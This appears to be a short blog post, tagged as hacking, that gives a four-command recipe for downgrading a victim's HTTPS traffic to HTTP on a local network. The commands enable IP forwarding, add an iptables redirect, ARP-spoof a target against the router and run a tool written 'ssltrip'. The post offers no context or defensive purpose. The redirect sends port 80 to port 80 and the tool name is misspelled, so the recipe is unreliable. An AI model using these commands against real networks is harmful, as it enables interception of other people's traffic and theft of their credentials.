 ```yaml
---
layout: post
title: Downgrade HTTPS to HTTP
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: 443 > 80
fullview: true
comments: true
---
```


{% highlight yaml %}
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 80
$ arpspoof -i wlan0 -t IP_TARGET ROUTE_IP
$ ssltrip -l 80
{% endhighlight %}
